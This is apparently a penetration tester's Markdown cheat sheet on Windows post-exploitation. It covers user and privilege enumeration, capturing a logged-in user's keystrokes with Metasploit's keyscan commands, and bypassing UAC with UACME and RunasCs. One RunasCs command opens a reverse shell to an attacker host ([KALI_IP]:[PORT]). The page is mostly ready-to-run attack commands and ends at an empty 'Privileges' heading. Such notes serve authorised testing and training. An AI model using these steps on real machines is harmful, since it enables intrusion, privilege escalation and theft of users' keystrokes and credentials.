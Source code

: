 
## Users & Privileges

- List users: `net user`
- for every user: `net user [USER]`
- `tree /a /f c:\users`
- Active sessions: `qwinsta` -> metaploit `screenshare` -> migrate to a stable process of that user (e.g. `explorer.exe`) -> `keyscan_start` -> `keyscan_dump`
- The users that are currently logged in: `query user`
- Password policy: `net accounts`
- Env variables: `set`
- User description field: `Get-LocalUser`
- OS description: `Get-WmiObject -Class Win32_OperatingSystem | select Description`

### UAC Upgrade

When you are member of Administrators, but you have restricted privileges and file access of a true SYSTEM user

- Enumeration `whoami /groups`

	- Normal Users   → Check if not `High Mandatory Label`
	- Administrators  → Check if not `System Mandatory Label`

- Bypasess

	- GUI Access                        

		-  CMD “Run as Administrator”
		-  PS:  `Start-Process cmd.exe -verb runas`

	- UACME ([Exploit Reference](https://github.com/hfiref0x/UACME))

		- Get build number: `systeminfo | findstr "OS"`

		- Find key in the repo, related to the build number and run
			```cmd
			Akagi64.exe [KEY] [CMD]
			```

	- [Runas](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)

		- To get a Rev Shell:

			```powershell
			Invoke-RunasCs -username [USER] -password "[PASS]" -Command cmd.exe -Remote [KALI_IP]:[PORT] -LogonType 8 -BypassUac
			```

		- To get a general command execution:

			```powershell
			Invoke-RunasCs -username [USER] -password "[PASS]" -Cmd "[CMD]" -LogonType 8 -BypassUac
			```

### Privileges
